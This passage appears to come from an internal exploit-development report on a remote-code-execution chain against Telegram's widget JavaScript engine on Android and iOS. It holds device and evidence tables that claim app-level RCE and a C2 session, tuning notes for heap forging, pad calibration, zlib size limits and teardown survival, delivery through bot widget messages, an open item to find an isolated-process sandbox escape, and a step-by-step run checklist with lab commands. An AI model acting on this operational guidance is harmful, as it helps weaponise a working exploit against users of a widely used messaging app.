| Test | Result |
|---|---|
| iOS 27 p0..p4, 3 runs each | forge at the first pad; `HIT=545 LEN=327744`; `PH=28` for 512/768, `PH=12` for 384 |
| iOS 27 p0 determinism, 20 runs | identical marker |
| iOS 27 negative control, hit test disabled | segfault in a later round; the hit guard is load-bearing |
| Android XTAG `gen_c2560s.py --no-write` | 6/6 PIN-OK |
| Android route2 probe | `ABLEN[599]=327744` 3/3 at 8 MiB and 6 MiB |
| Android v3 inline | `END=HF OK` 3/3, 154-158 ms |
| Android parallel fan-out | 12/12 host runs |
| P3 host matrix | detector HIT 3/3, re-arm 3/3, final HF OK 3/3 |
| P3 server self-test | PASS, report len 64 |

### 6.5 Device matrix

| Device | Build | Route | Result | Evidence |
|---|---|---|---|---|
| Sony XQ-BT52 | beta 72929 | XTAG | 5/5 forge, C2 1/1, app UID 10346 | 185 B proof, md5 `52258bc7…` |
| Sony XQ-BT52 | beta 72889 | XTAG | 1/1 | same proof |
| Pixel 9 | release 72801 | STAG | stage A + out-of-band `HF HF OK` | `ABLEN[599]=327744` |
| iPhone 6s | 13.2 36535 | TINY | `RCE_OK`, app alive | `Documents/rce.txt`, mtime 05:49:24 |
| iPhone 17e | 13.2 36535 | IOS27 | `RCE_OK` once | msg 5725, hash `704984d9…` |
| Sony XQ-BT52 | beta 72929 | P3 two-phase | stage A, then `HF ERR NA` | detector 63 ms, final 74 ms, send 145 ms |
| Sony XQ-BT52 | beta **72979** | XTAG / P3 | stage A `ABLEN[599]=327744 ATT=1`; endgame `HF ERR NOANCHOR VNC=0 VO=-1`; widget UID 99017 `isolated_app`; no `n1`; app alive | contained; no app-level proof |
| Sony XQ-BT52 | beta **72989** | XTAG / P3 | same service, UID 99024 `isolated_app`; app UID 10346, root ok, app alive; PING works; detector `el=55ms`; final 9,190 / 4,081; `HF ERR NOANCHOR`; no `n1`/C2 | contained; 72979 facts apply |

### 6.6 Proof read-back

Android, rooted lab path:

```sh
adb shell cat /data/user/0/org.telegram.messenger.beta/files/n1
adb shell stat -c '%s %y' /data/user/0/org.telegram.messenger.beta/files/n1
```

The file is 185 B in the XTAG runs on 72889/72929. On beta 72979 the widget
runs in isolated UID 99017 and the app-private write is blocked; a missing
`n1` is expected, not a transport failure. On a non-rooted build, use the
app's own file access or the bot/C2 channel; do not assume `adb` can read the
app container.

iOS 6s:

```sh
# App container path; UUID is a placeholder in the repo
cat '00000000-0000-0000-0000-000000000000/Documents/rce.txt'
stat -c '%s %y' '00000000-0000-0000-0000-000000000000/Documents/rce.txt'
```

iOS 17e, stock app:

```sh
pymobiledevice3 developer core-device read-file appGroupDataContainer \
  rce.txt --identifier group.ph.telegra.Telegraph --userspace
```

The AppGroup lookup failed on the stock 17e in the earlier session; the
read-back used a backup or a direct file read. Record the exact command used.

### 6.7 Beta vs release

The Android endgame command contains the package path. The repo P3 final uses
the release path. For the Sony beta app:

```sh
# Lab generator, not the repo builder
python3 gen_two_phase.py --pkg beta
```

The output is 5 bytes longer: 9,190 raw / 4,071 zlib9. Stage A is unchanged.
The endgame path is `org.telegram.messenger.beta/files/n1`. Re-measure the
zlib margin after any edit. The beta package path is necessary but not
sufficient on 72979/72989: the isolated widget UID 99017/99024 cannot write it.
Use 72929 or find an isolated-process escape for the app-level proof.

### 6.8 Page-length equality and zlib margin

- Android P3 pair: both 9,185 B. The stage-A text is identical; only stage C
  differs.
- iOS 15 pair: both 6,801 B ungated; both 7,263 B gated. The gate prefix is
  identical; stage B sits in an attribute.
- iOS 27 family: all 8,647 B; stage-A script 8,524 chars; S2 6,099 chars.
- iOS 27 gated final: 9,139 B, not equal to the proven page. It is host-only.
- Android P3 final: 4,068 / 4,096 (28 B). Beta: 4,071 / 4,096 (25 B).

`scripts/verify_payloads.py` asserts the equalities and prints the beta-path
note. It does not send anything.

## 7. Failure modes and limits

### 7.1 Parser silent or fatal

- A safe miss reports `NOCORR`, `HIT=-1` or `ABLEN[599]=64`.
- A far address outside the mapped spray faults immediately. iOS 27 often
  writes no `.ips` for this; Android faults with `SEGV_MAPERR`.
- A shifted fake record (`scope_level` garbage) can fault in
  `add_closure_variables`, not in the payload's own code.

### 7.2 Teardown abort on iOS 27

A successful stage-A forge corrupts a class-64 block header. At widget
teardown, `js_free_rt` sees a bogus size (`0x13xxxxxxf8`) and aborts:

```
js_free_rt: malloc_size underflow: freeing 5.xe9 but only 16.7e6 tracked
```

The only way to survive is to reach `pthread_exit` in the endgame. A
stage-A-only probe on the 17e is fatal. This is why the 17e detector is a
non-forging handshake, not a forge.

### 7.3 Endgame guards

| Marker | Meaning | Action |
|---|---|---|
| `U_NF` | UB scratch not found | Fix the arena walk or the UB placement; geometry is usually fine |
| `U_NO_FREE` / `NO_FREE` | `free`/`system` not resolved | Check the ELF walk and the GOT slot |
| `HF ERR NA` / `NOANCHOR` | No class-24 anchor or no class-20 record | Check the view, the victim index, and the page shape |
| `LEN_72` | The forged view still has length 72 | Stage A did not forge; treat as a miss |
| `NO_TOPS` | The engine wrapped the script; function geometry changed | Do not run the final; re-check the script form |
| `NOCORR` | No victim changed | Safe miss; re-arm or try another pad |

`HF ERR NA` on the Android two-phase beta run means the stage-B anchor scan
failed. The app stayed alive. It is not a crash and not an RCE.

### 7.4 Geometry drift

The page shape, the compiled top-level function, the pad order, the GC state
and the app build all move the tiny/arena layout. A payload that hit yesterday
can miss today. Re-calibrate after:

- a Telegram build change;
- a page length change;
- a gate or marker change;
- a different device model or allocator;
- a different package (beta vs release).

### 7.5 Zlib margin

The Android final is close to the 4,096 B limit. A comment, a longer marker or
a package-path change can overflow. The sender checks the size before the
network call. The builder should fail at 4,080 B, not at 4,096 B.

### 7.6 Desktop and account

The JS gate cannot distinguish Telegram Desktop from the Sony sandbox. A
payload opened on desktop can run. The only reliable separation is account
isolation. Do not claim a payload is desktop-safe because a host matrix says
so.

### 7.7 Stale pins and detector identity

A detector reports geometry, not a device identity. UA and platform are
constant. `devices.json` is the per-uid authority. A stale `last_m` can send a
pad-first final that misses; the final's self-sweep is the fallback, but it is
not a guarantee.

### 7.8 Answer-channel limits

One request in flight, 5 s pacing, 15 s window, 5 per 5 s server flood,
1,024 B per answer. A chunk chain longer than eight answers is fragile. The
burst schedule uses five requests in the first window, waits 5.2 s, then sends
three more.

### 7.9 MTE

The XTAG route requires MTE off. The STAG route is MTE-safe by construction.
The tested Android releases are untagged, so MTE is not the deciding factor
today; the same-tag route is insurance for a future memtag build.

### 7.10 Package path

The proof path is package-specific:

```
org.telegram.messenger/files/n1        release
org.telegram.messenger.beta/files/n1   beta
```

A wrong path makes the chain run but the proof absent. This is the P0-02 bug.
The process boundary is a second blocker: on beta 72979/72989 the widget is
UID 99017/99024 (`u:r:isolated_app:s0`) and cannot write either path or open
the C2 socket. A correct path is necessary but not sufficient on 72979/72989.

### 7.11 Android isolated process

Beta 72979 and the current beta 72989 run the widget in
`org.telegram.messenger.beta:widgets:org.telegram.utils.twidget.WidgetEngineService`,
UID 99017 / 99024, SELinux `u:r:isolated_app:s0`. The parser stage A still
hits on both. The endgame stops at `HF ERR NOANCHOR VNC=0 VO=-1` in the
observed runs. Even after an anchor fix, the isolated UID has no app-private
data access and no network permissions, so the current stage-B write and C2
are blocked. On 72979/72989 the result is contained code execution or DoS in
the widget process, not app-level RCE. Use 72929/72889 for the app-level proof,
or find a separate isolated-process escape. Do not attribute the 72929 C2 result
to 72979/72989.

## 8. Evidence table

| # | Claim | Device | Payload | Evidence | Timing | Status |
|---|---|---|---|---|---|---|
| 1 | XTAG app-level RCE 5/5 | Sony 72929 | `final-sony-beta-72929.html` | 185 B proof, md5 `52258bc7…` | C2 1.913 s | Proven |
| 2 | XTAG compatibility | Sony 72889 | same bytes | 185 B proof | not measured | Proven 1/1 |
| 3 | XTAG C2 | Sony 72929 | `c2-final-sony-beta-72929.html` | session `tg-10346-XQ-BT52` | 1.913 s to hello | Proven 1/1 |
| 4 | Pixel stage A | Pixel 72801 | `stage-a-probe-72801.html` | `ABLEN[599]=327744` | not measured | Proven |
| 5 | Pixel out-of-band | Pixel 72801 | `out-of-band-72801.html` | `G1/8..G8/8 | HF HF OK` | ~6 s burst | Proven |
| 6 | 6s probe | iPhone 6s | `probe-h400.html` | `HIT=545 ... PH=36` | not measured | Proven |
| 7 | 6s RCE | iPhone 6s | `inline-rop-h200.html` + seed | `Documents/rce.txt`, 7 B | mtime 05:49:24 | Proven |
| 8 | 6s attribute final | iPhone 6s | `at_final_h400.html` | host only | n/a | Pending |
| 9 | 17e RCE | iPhone 17e | `p0_proven.html` (8,647 B) | `AppGroup/rce.txt`, 7 B, hash `704984d9…` | msg 5725 | Proven once |
| 10 | 17e stage-A marker | iPhone 17e | 5725 page | not captured | n/a | Unknown |
| 11 | 17e gated twin | iPhone 17e | 9,139 B | host matrix | n/a | Host-only |
| 12 | Android two-phase (72929) | Sony 72929 beta | 9,190 / 4,071 beta | stage A, then `HF ERR NA` | 63/74/145 ms | Not proven |
| 12b | Android 72979 containment | Sony 72979 beta | c2560s/v3 | stage A `ABLEN[599]=327744 ATT=1`; `HF ERR NOANCHOR VNC=0 VO=-1`; widget UID 99017 `isolated_app`; no `n1`; app alive | detector 54 ms | Contained, not app-level |
| 12c | Android 72989 containment | Sony 72989 beta | c2560s/v3 | same service, UID 99024 `isolated_app`; PING works; detector `el=55ms`; final 9,190 / 4,081; `HF ERR NOANCHOR`; no `n1`/C2; app alive | detector 55 ms | Contained, not app-level |
| 13 | Android two-phase release | Sony/Pixel | 9,185 / 4,068 | repo page writes release path | n/a | Host-only |
| 14 | Desktop no-op | Desktop | old gate | desktop report, `MT=0` | n/a | Disproven |
| 15 | Standard base | API | `sendWidget` | HTTP 200, no redirect | n/a | Measured |
| 16 | Sharing | API | `is_shared` + `sendSharedWidget` | HTTP 200, A to B | n/a | Measured |
| 17 | Bot forward blocked | API | bot-created widget | 400 `can't be forwarded` | n/a | Measured |
| 18 | User copy forward | API | user copy | 200, `is_copy: true` | n/a | Measured |

The `rce.txt` hash is the same for the 6s and 17e because both wrote the same
7 bytes `RCE_OK\n`. The path and mtime are the differentiators.

## 9. Verification checklist for a new build or device run

Run in this order. Stop at the first failure.

1. **Static checks.**
   ```sh
   python3 -m py_compile $(find . -path ./.git -prune -o -name '*.py' -print)
   python3 scripts/verify_payloads.py
   ```
   Expected: compile clean; manifest PASS with 36 pins.

2. **Builder pins.**
   ```sh
   python3 builders/0day-2/xtag/build_widgets.py --check
   python3 builders/0day-2/stag/build_probe.py --check
   ./builders/0day-2/stag/check_parallel.sh
   python3 builders/0day-2/tiny/build_ios_way.py --H 400 --outdir /tmp/opencode/tinycheck --check
   python3 builders/0day-1/gen_sc_gate.py --check
   ```
   Expected: PIN-OK / PASS for each.

3. **Server self-tests.**
   ```sh
   python3 bot/bot_two_phase.py --self-test
   python3 scripts/two_phase/bot_two_phase.py --self-test
   python3 bot/probe_answers.py --self-test
   ```
   Expected: P2 report len 48; P3 report len 64; probe PASS.

4. **Page shape.**
   ```sh
   python3 scripts/verify_payloads.py --strict-zlib
   ```
   Expected: PASS on the reference host (zlib 1.3.1). A different zlib build
   may warn; compare raw and SHA first.

5. **Target geometry and process.**
   Confirm the device build, package, class, and `vardefs` offset. Confirm the
   widget process UID and SELinux context: app UID 10346 on 72889/72929,
   isolated UID 99017 on 72979 and 99024 on 72989. Do not reuse a payload from
   another build or package, and do not expect app data from the isolated
   process.

   ```sh
   adb shell dumpsys package org.telegram.messenger.beta | grep versionCode
   adb shell ps -A | grep -E 'WidgetEngineService|org.telegram.messenger.beta'
   adb shell cat /proc/<pid>/status | grep -E 'Uid|Gid'
   adb shell cat /proc/<pid>/attr/current
   ```

6. **Stage A only.**
   Send the probe. On Android expect `ABLEN[599]=327744` or `NOCORR`. On iOS 15
   expect `HIT=545` or `HIT=-1`. On iOS 27 use the safe handshake, not a
   forging probe.

7. **Stage B.**
   Send the final only after a stage-A hit. On iOS 27 the final must reach
   `pthread_exit`; a guard or exception kills the app at teardown.

8. **Proof read-back.**
   Read the exact path for the package. Record size, mtime, sha256 and the
   app-alive state. For Android XTAG the proof is 185 B on 72889/72929; for
   iOS it is 7 B `RCE_OK\n`. On 72979/72989 a missing `n1` is expected because
   the isolated process cannot write the app-private path.

9. **Timing.**
   Record detector report time, host send time, final render time and proof
   read-back. Do not compare across devices or packages.

10. **Cleanup and isolation.**
    Delete test messages. Keep the desktop client out of the test account.
    Do not use a shared account for a payload run.

## 10. Open items

1. Fix the Android two-phase beta path and the `HF ERR NA` anchor, then
   re-run on the Sony beta. On 72979/72989 the isolated process also blocks the
   app-data write and C2; an app-level proof requires 72929/72889 or an
   isolated-process escape.
2. Device-test the gated 17e and 6s pages, or keep them host-only.
3. Capture the 5725 stage-A marker and a per-attempt reliability number.
4. Add redacted 5725 screenshots and console lines.
5. Re-pin every payload hash after any edit.
6. Add CI for the static checks, the manifest and the link check.
7. GC or recreate the Gitea repository to remove pre-scrub packs.
8. Characterize the 72979/72989 isolation boundary and the parser's contained
   code-execution/DoS surface in UID 99017/99024.
